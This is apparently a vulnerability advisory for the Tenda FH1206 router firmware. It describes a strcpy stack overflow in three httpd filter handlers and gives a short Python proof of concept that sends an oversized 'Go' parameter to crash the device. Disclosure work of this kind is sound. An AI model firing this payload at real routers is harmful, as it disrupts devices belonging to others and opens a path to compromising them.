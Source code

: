## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromSafeClientFilter`，the `fromSafeMacFilter` and the `fromSafeUrlFilter`function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The `fromSafeClientFilter`function, for example, gets the `Go` parameter from the user request, and copies it directly to the stack variable `v15` using `strcpy`, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/SafeClientFilter"
# url = f"http://{IP}/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a"*0x1000
}

ret = requests.post(url,data=data)
```

![demo](image/demo.png)
